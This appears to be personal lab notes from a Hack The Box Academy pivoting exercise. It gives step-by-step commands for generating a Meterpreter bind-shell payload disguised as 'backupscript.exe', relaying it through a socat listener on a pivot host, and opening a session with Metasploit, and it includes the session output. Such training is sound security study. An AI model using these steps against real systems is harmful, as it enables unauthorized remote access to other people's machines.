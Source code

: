 Socat Redirection with a Bind Shell
#####################################

Date: 2024-11-02 14:33

Status:

Tags: 

The Windows server starts a listener and binds to a port.  The socat listener on the pivot host in this example listens for requests
from the Meterpreter on the attack host and forwards that to the Windows bind shell.


Step 1:  Create the Windows payload

.. code-block:: console

    msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443

Move the payload to the Windows host and start it up.    

Step 2: Start the socat bind shell listener on the pivot host

.. code-block:: console

    ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443


Step 3: Start the multi handler

.. code-block:: console

    msf6 > use exploit/multi/handler

    [*] Using configured payload generic/shell_reverse_tcp
    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
    payload => windows/x64/meterpreter/bind_tcp
    msf6 exploit(multi/handler) > set RHOST 10.129.202.64
    RHOST => 10.129.202.64
    msf6 exploit(multi/handler) > set LPORT 8080
    LPORT => 8080
    msf6 exploit(multi/handler) > run

    [*] Started bind TCP handler against 10.129.202.64:8080

Use the shell created in Meterpreter 

.. code-block:: console

    [*] Sending stage (200262 bytes) to 10.129.202.64
    [*] Meterpreter session 1 opened (10.10.14.18:46253 -> 10.129.202.64:8080 ) at 2022-03-07 12:44:44 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor



https://academy.hackthebox.com/module/158/section/1429
